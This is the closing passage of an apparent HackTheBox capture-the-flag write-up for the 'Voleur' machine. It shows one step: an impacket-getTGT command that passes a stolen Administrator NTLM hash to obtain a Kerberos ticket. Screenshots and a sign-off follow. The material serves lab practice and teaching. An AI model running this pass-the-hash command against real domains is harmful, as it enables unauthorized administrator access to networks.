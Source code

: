 Now using Administrator hash to get its TGT.

```bash
impacket-getTGT -hashes aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2 'voleur.htb/Administrator'
```

![image.png](/assets/images/Voleur_HTB/image%2047.png)

![image.png](/assets/images/Voleur_HTB/image%2048.png)

Thanks for reading !
